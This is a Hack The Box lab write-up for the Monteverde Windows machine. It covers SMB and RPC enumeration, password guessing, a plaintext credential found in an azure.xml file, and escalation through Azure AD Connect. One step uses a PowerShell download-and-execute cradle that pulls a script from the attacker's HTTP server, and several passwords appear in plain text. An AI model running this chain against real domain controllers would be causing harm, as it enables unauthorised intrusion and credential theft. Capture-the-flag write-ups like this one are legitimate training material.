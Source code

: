 # [Monteverde](https://app.hackthebox.com/machines/Monteverde)

```bash
nmap -p- --min-rate 10000 10.10.10.172 -Pn
```

![Alt text](img/image.png)


Maybe it is Domain Controller, let's do greater nmap scan for open ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.172 -Pn
```

![Alt text](img/image-2.png)

I first enumerate SMB share, but it is restricted. (Also, doesn't allow for `guest` user.)

```bash
smbmap -H 10.10.10.172 
```


Let's try to enumerate RPC.

```bash
rpcclient -U "" -N 10.10.10.172
querydispinfo
```


![Alt text](img/image-1.png)


I grab account names from here as users.txt file.

![Alt text](img/image-3.png)



Let's try to do brute-force to find the user which uses password as his or her username.

I check this manually.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
```

![Alt text](img/image-4.png)

Hola, it worked for '**SABatchJobs**' user.


Let's login into 'users$' share.

```bash
smbclient -U '10.10.10.172\SABatchJobs' //10.10.10.172/users$
```

And I find sensitive info which located in file called 'azure.xml' file on the directory of '**mhope**' user.

![Alt text](img/image-5.png)


mhope: 4n0therD4y@n0th3r$


Let's login into machine via this credentials.

```bash
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$ 
```

user.txt

![Alt text](img/image-6.png)


I just enumerate this user via `net user mhope` command and see that this user belongs to **'Azure Admins'** group.


And I find such a [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/) for privilege escalation.

![Alt text](img/image-7.png)


Let's upload this malicious script into machine.

First, open HTTP server.

```bash
python3 -m http.server --bind 10.10.16.3 8080
```

![Alt text](img/image-9.png)

Then download this script into target machine.
```bash
iex(new-object net.webclient).downloadstring('http://10.10.16.3:8080/malscript.ps1')
```

![Alt text](img/image-8.png)


I got credentials of 'administrator' user.

administrator: d0m@in4dminyeah!


Let's login via `evil-winrm`.

```bash
evil-winrm -i 10.10.10.172 -u administrator -p d0m@in4dminyeah! 
```

root.txt

![Alt text](img/image-10.png)